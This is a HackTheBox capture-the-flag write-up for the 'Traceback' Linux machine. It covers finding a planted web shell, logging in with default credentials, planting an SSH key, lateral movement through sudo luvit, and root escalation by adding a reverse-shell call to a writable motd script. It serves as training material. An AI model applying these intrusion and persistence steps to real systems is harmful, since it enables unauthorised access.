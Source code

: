 ```yaml
---
Tags: HackTheBox Easy Linux OSINT luvit lua lateral-movement insecure-file-permissions B2R
Alias: Traceback - 10.10.10.181
---
```

# 10.10.10.181 - Traceback [Easy]

![traceback.jpeg](attachments/traceback.jpeg)

***

### Improved skills:

- OSINT
- Luvit lateral movement
- motd privilege escalation

### Used tools:

- nmap
- owasp zap
- pspy64
- netcat

***



## Introduction & Foothold

Like for every CTF we made, let's start scanning the box with **nmap**

```bash
$ nmap 10.10.10.181 --top-ports 25 --open -sC -sV -oA nmap/openPorts.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there are only two services exposed: **SSH** (port 22) and the **Apache Web Server** (port 80).

Visiting the site, we discover that the machine **has been owned** and _there is a backdoor_

![[HTB/Machines/Traceback - 10.10.10.181/attachments/1.png]]


 Looking to the source code of the page, a comment comes out. 

![[HTB/Machines/Traceback - 10.10.10.181/attachments/2.png]]

Searching it on google, it reveals to be the description of a repo containing only web-shells. _We can suppose that one of those shells is the one used in this machine_.

Assuming this, lets **create a wordlist using the discovered shells' name** and **fuzz** the web page in order to find the correct one.

![[HTB/Machines/Traceback - 10.10.10.181/attachments/3.png]]

![[HTB/Machines/Traceback - 10.10.10.181/attachments/4.png]]

**Bingo!** `smevk.php` is the web shell used on the box.

![[HTB/Machines/Traceback - 10.10.10.181/attachments/5.png]]

**Credentials** can be found **on the source code on github.** Easily guessable, the combination is `admin:admin`

![[attachments/6.png]]

Once inside, we can easily submit commands to the box. 
In order to get a more stable and comfortable shell, **I added my SSH key to the `authorized_keys` file**, obtaining an SSH access as **webadmin**.

![[attachments/7.png]]

![[attachments/8.png]]

## Lateral Movement to sysadmin

Listing all the files within the webadmin home directory, we discovered the presence of [Luvit](https://luvit.io/), a

> scripting platform just like `node`. This can be used to run lua scripts as standalone servers, clients, or other tools.

Furthermore, **webadmin has the permissions to run luvit as sysadmin** using **sudo**. It becames easy to perform action as sysadmin, like reading files

![[attachments/9.png]]
or getting a shell:

![[attachments/10.png]]

## Privilege Escalation

Analyzing the processes running on the machine I noticed the **presence of a process owned by the root modifiable by sysadmin**.

```bash
2020/03/15 15:45:01 CMD: UID=106  PID=28288  | sshd: [net]          
2020/03/15 15:45:01 CMD: UID=0    PID=28290  | run-parts --lsbsysinit /etc/update-motd.d 
2020/03/15 15:45:01 CMD: UID=0    PID=28289  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2020/03/15 15:45:01 CMD: UID=0    PID=28297  | cut -c -80 
2020/03/15 15:45:01 CMD: UID=0    PID=28296  | 
2020/03/15 15:45:01 CMD: UID=0    PID=28295  | 
2020/03/15 15:45:01 CMD: UID=0    PID=28293  | /bin/sh /etc/update-motd.d/50-motd-news 
2020/03/15 15:45:01 CMD: UID=0    PID=28298  | run-parts --lsbsysinit /etc/update-motd.d 
2020/03/15 15:45:01 CMD: UID=0    PID=28299  | /usr/bin/python3 -Es /usr/bin/lsb_release -cs 
2020/03/15 15:45:01 CMD: UID=0    PID=28301  | /usr/sbin/CRON -f 
2020/03/15 15:45:01 CMD: UID=0    PID=28300  | /usr/sbin/CRON -f 
2020/03/15 15:45:01 CMD: UID=0    PID=28305  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28304  | sleep 30 
2020/03/15 15:45:01 CMD: UID=0    PID=28303  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28302  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28306  | /usr/bin/python3 -Es /usr/bin/lsb_release -ds 
2020/03/15 15:45:01 CMD: UID=0    PID=28307  | /bin/sh /etc/update-motd.d/91-release-upgrade 
2020/03/15 15:45:01 CMD: UID=0    PID=28310  | cut -d  -f4 
2020/03/15 15:45:01 CMD: UID=0    PID=28309  | /usr/bin/python3 -Es /usr/bin/lsb_release -sd 
2020/03/15 15:45:01 CMD: UID=0    PID=28308  | /bin/sh /etc/update-motd.d/91-release-upgrade 
2020/03/15 15:45:02 CMD: UID=0    PID=28315  | sshd: sysadmin [priv]
2020/03/15 15:45:02 CMD: UID=1001 PID=28316  | -sh
```

`/etc/update-motd.d/50-motd-news` is called **every time a user logs into the box**, with **root privileges**. However, **this file can be edited from non-root users**. 
Abusing this issue, let's use the reverse shell script used before in order to obtain a reverse shell as root at the next login.

```bash
sysadmin@traceback:~$ nano /etc/update-mot.d/50-motd-news

#!/bin/bash
/bin/bash /tmp/revShell.sh
...
```

![[attachments/11.png]]

## Trophy

> Aim for the sky, but move slowly, enjoying every step along the way.
> It is all those little steps that make the journey complete.  
> \- Chanda Kochhar


## License

Author: 0x*bro*
<a rel="license" href="http://creativecommons.org/licenses/by-nc/4.0/">
<img alt="Creative Commons Licence" style="border-width:0" src="https://i.creativecommons.org/l/by-nc/4.0/88x31.png" /></a>
This work is licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-nc/4.0/">Creative Commons Attribution-NonCommercial 4.0 International License</a>.